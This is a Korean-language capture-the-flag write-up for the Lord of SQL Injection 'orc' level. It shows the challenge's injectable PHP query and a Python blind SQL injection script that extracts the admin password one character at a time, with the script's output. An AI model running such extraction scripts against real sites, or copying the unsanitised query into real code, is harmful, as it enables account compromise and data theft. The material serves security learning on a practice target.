 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - orc 문제풀이"
excerpt_separator: <!--more-->
comments: true
categories : [Wargame/Lord of SQL Injection]
tags:
  - Write-up
  - Lord of SQL Injection
---
```


하루에 한 문제씩 `los` 문제를 풀어보는 중이다.  

다음 문제의 이름은 `orc`이다.  

<!--more-->

코드는 다음과 같다.  

```php
-------------------------------------------------------------------------------
query : select id from prob_orc where id='admin' and pw=''
-------------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```

이번 문제에는 문제를 풀기 위해 아래의 조건문을 통과해야 한다.  

```php
if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc");
```

입력 한 `pw`의 값과 데이터베이스에 저장되어 있는 `pw`의 값이 같아야 한다.  

즉, 정확한 `pw`의 값을 입력해야 문제를 풀 수 있다.  

이 문제는 `Blind SQL Injection`으로 해결했다.  

`Blind SQL Injection`은 쿼리 결과 에 따른 서버의 참과 거짓 반응을 통해 공격을 수행한다.  

이에 대해 이 전 블로그에 적어둔게 있는데, 지금은 옮기기 귀찮아서 나중에 시간이 될 때 옮겨오려 한다.  

문제를 풀기 위해 구현한 `exploit` 코드는 아래와 같다.  

```python
import urllib2
import urllib
import requests

flag = ""
length = 0

url = "http://los.rubiya.kr/orc_60e5b360f95c1f9688e4f3a86c5dd494.php?pw="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 20):
	try:
		query = url + "1' or id='admin' and length(pw)=" + str(i) + "%23"
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue

	if 'Hello admin' in r.text:
		length = i
		break

print "[+] Found length : ", length

print "[+] Find password"

for j in range(1, length + 1):
	for i in range(48, 128):
		try:
			query = url + "1' or id='admin' and substr(pw, " + str(j) + ", 1)='" + chr(i)
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if 'Hello admin' in r.text:
			flag += chr(i)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

먼저 `pw`의 길이를 알아내기 위해, `length()` 함수를 사용했다.  

이 경우 완성되는 쿼리는 다음과 같다.  

```
select id from prob_orc where id='admin' and pw='1' or id='admin' and length(pw)=0#'
```

만약 pw의 길이가 `str(i)`의 값과 같을 경우 데이터베이스에서는 `id='admin' and length(pw)=0`의 두 조건이 모두 참이므로 `admin`의 행이 추출되어 `Hello admin`이 출력될 것이다.  

길이를 찾은 다음에는 해당 길이만큼 반복문을 수행 해 `pw`를 한 글자 씩 찾았다.  

`substr()`을 사용했는데, 이 경우 완성되는 쿼리는 다음과 같다.  

```
select id from prob_orc where id='admin' and pw='1' or id='admin' and substr(pw, 0, 1)='0'
```

이 때도 만약 pw의 `str(j)`번 째 문자가 `chr(i)`의 값과 같을 경우 `id='admin' and substr(pw, 0, 1)='0'`의 모든 조건이 참이 되어 `admin`의 행이 추출된다.  

따라서 `Hello admin`이 출력된다.  

이 exploit 코드를 실행시킨 결과 다음과 같이 pw를 찾을 수 있었다.  

```
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  8
[+] Find password
[+] Found 1 : 0
[+] Found 2 : 09
[+] Found 3 : 095
[+] Found 4 : 095A
[+] Found 5 : 095A9
[+] Found 6 : 095A98
[+] Found 7 : 095A985
[+] Found 8 : 095A9852
[+] Found password :  095A9852
[+] End
```

그런데, `095A9852`를 입력해도 `Hello admin`은 출력되지만 문제는 풀리지 않았다.  

생각해보니 `MySQL`에서는 대소문자를 구분하지 않아 만약 `a`와 `A`를 비교해도 참을 반환한다는 것이 생각났다.  

그래서 대문자를 소문자로 바꾸어 다시 인증했더니 문제가 풀렸다.  

```php
-------------------------------------------------------------------------------------------
query : select id from prob_orc where id='admin' and pw='095a9852'
-------------------------------------------------------------------------------------------

Hello admin
ORC Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```

`ORC Clear!!`
